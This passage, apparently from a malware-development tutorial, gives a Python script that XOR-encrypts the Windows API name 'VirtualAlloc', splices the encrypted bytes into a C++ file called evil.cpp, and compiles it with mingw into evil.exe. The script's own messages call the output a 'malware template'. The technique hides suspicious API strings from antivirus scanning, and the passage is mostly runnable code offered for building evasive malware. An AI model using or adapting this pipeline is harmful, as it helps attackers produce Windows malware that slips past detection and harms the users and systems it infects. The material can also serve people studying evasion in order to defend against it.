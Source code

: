 And use python script to XOR encrypt our function name and replace:
```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
plaintext = "VirtualAlloc"
my_secret_key = "meowmeow"

## encrypt VirtualAlloc
ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char cVirtualAlloc[] = { };', 'unsigned char cVirtualAlloc[] = ' + ciphertext)
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
    cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp -o evil.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc >/dev/null 2>&1"
    os.system(cmd)
except:
    print ("error compiling malware template :(")
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")
```

